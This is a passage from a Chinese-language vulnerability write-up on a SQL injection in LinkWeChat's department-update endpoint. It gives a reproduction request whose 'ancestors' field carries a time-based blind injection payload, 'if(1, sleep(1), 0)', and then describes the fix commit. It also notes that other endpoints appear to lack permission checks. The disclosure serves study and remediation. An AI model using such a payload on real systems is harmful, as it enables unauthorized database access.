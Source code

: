 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-94a1f09c8eda19e39c95c224dc6b4071f016d22a.png)

然后我们需要让他进入判断调用 ***updateParentDeptStatus*** 才能触发 ***SQL*** ，这里的 ***DEPT\_NORMAL = 0***

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-95dbb292f95a2d132a363b35d79dd2ae1f8d72ee.png)

漏洞复现
----

```json
{  
    "deptId": 1,  
    "parentId": 999,  
    "ancestors": "if(1, sleep(1), 0)",  
    "deptName": "24rewr",  
    "deptEnName": "3",  
    "orderNum": "4",  
    "phone": "5",  
    "email": "1@q.com",  
    "status": "0",  
    "parentName": "parentName"  
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-44ecf356e28b6f6ba7a8dee8b335c2abe9118bfd.png)

结果为 ***False*** 时，就没有阻塞。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-b74f77da717e9e42b51324f9494255bea5337bf4.png)

修复方案
----

[SQL注入漏洞修复](https://gitee.com/LinkWeChat/link-wechat/commit/15cbe225a9da3cb2f5672af899ea6063da15d068)

在 ***修改部门*** 的逻辑中增加了操作操作权限的校验

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-7ce6678bd179aba3e95bfd164527d5ac72818399.png)

此时就算还存在越权的问题，也无法访问 ***修改部门*** 的接口了

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-015329193d240b67a5c23cce642709045a02f8ae.png)

但其他的接口似乎没有加上权限校验

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-b8188f633291142b3a4d5beb56567f6fd76d67b5.png)

针对于 Mapper.xml 也修复了问题

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-9234a8e5f7366e8ea716522f8392492477eba1c2.png)